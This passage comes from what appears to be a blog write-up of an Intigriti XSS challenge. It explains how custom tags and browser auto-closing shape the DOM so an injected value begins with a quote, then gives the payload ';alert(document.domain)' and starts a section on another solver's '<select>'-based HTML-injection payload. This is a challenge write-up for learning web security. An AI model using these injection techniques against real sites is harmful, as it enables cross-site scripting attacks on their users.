 ``` html
        <div id="broken">
            <span id="y">G</span>
        </div>
        <span>R</span>
        <div id="broken">
            <span id="y">I</span>
        </div>
        <span>T</span>
        <span>I</span>
      </div>
```

The structure will become like this:

![](/img/intigriti-1021/p2.png)

In this way, the last child of intigriti will become test1, its innerHTML will become test2, and the last four characters will become `st2>`. Here, we use the custom tag plus the property that the browser will automatically close to control the last four characters.

So as long as we change `<test2>` to `<tes't2>`, last4 will become `'t2>`, starting with a single quote, achieving our goal. Then set xss to `;alert(document.domain)`, and we're done:

![](/img/intigriti-1021/p3.png)

## Unexpected Solutions

After I solved this question in the way mentioned above, I thought I was done, and I didn't expect there to be other solutions (I was too naive). It wasn't until the official release of other people's writeups that I realized that I was really a frog at the bottom of a well.

---

I wanted to write this post because unexpected solutions can teach us something new. Let's take a look at each of them.

### Utilizing the Special Behavior of HTML Tags

The following technique was learned from [@svennergr](https://gist.github.com/svennergr/53b904a08f42bd7f588bde38a02345f1).

When I was solving this problem, the reason why I finally wrapped it with tags outside was that if I didn't do this, I couldn't control the `lastElementChild` under intigriti, which would become the `container` div.

However, some HTML tag behaviors can break this deadlock. For example, the magical `<select>` tag. We pass in our payload: `</h1></div><div id=intigriti><select>`, and the HTML will be like this:

``` html
<div id="html" class="text">
  <h1 class="light"></h1>
</div>
<div id=intigriti>
  <select>
    </div>
    <div class="a">'"</div>
    </body>
    <div id="container">
      <span>I</span>
      <span id="extra-flicker">N</span>
      <span>T</span>
      <span>I</span>
      <div id="broken">
          <span id="y">G</span>
      </div>
      <span>R</span>
```